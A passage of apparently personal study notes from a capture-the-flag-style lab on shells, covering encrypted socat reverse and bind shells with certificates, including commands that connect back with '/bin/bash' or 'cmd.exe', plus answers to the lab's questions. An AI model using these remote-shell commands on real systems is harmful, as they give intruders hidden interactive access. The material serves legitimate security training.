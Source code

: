 When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.


We then need to merge the two created files into a single `.pem` file:
```
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use `OPENSSL` in place of `TCP`:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
This sets up an OPENSSL listener using our generated certificate.
`verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.

Please note that the certificate <ins>must</ins> be used on whichever device is listening.


To connect back, we would use:
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```


<ins>The same technique would apply for a bind shell</ins>:

Target:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.


1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

--> `socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0`

2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

--> `socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`



Task8:  Common Shell Payloads
--------------------------------

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.



 In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection.
